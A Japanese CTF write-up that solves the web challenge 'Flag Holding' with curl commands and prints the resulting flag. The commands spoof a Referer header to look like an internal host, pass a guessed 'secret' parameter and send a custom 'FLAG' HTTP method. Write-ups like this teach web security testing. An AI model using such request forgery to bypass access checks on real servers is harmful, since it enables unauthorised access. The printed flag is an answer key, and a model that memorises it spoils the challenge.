

# Flag Holding:Web:pts
Hopefully you know how web works...  
```
http://18.184.219.56:8080/
```

# Solution
URLが渡される。  
アクセスすると、`http://flagland.internal/`から来いと怒られる。  
  
`Referer`だろうとあたりをつけ、curlする。  
```bash
$ curl -H 'Referer: http://flagland.internal/' http://18.184.219.56:8080/
<!DOCTYPE html>
<html>
~~~
<body>
        <div class="msg" style="">
                Unspecified "secret".   </div>
</body>
</html>
```
`secret`が必要らしい。  
```bash
$ curl -H 'Referer: http://flagland.internal/' http://18.184.219.56:8080/?secret=satoki
<!DOCTYPE html>
<html>
~~~
<body>
        <div class="msg" style="">
                Incorrect secret. <!-- hint: secret is ____ which is the name of the protocol that both this server and your browser agrees on... -->   </div>
</body>
</html>
```
プロトコル名なので`http`としてやればよい。  
```bash
$ curl -H 'Referer: http://flagland.internal/' http://18.184.219.56:8080/?secret=http
<!DOCTYPE html>
<html>
~~~
<body>
        <div class="msg" style="">
                Sorry we don't have "GET" here but we might have other things like "FLAG".      </div>
</body>
</html>
```
注文が多いが、`GET`ではなく`FLAG`にすればよいようだ。  
```bash
$ curl -H 'Referer: http://flagland.internal/' http://18.184.219.56:8080/?secret=http -X 'FLAG'
<!DOCTYPE html>
<html>
~~~
<body>
        <div class="msg" style="">
                MAPNA{533m5-l1k3-y0u-kn0w-h77p-1836a2f} </div>
</body>
</html>
```
flagが得られた。  

## MAPNA{533m5-l1k3-y0u-kn0w-h77p-1836a2f}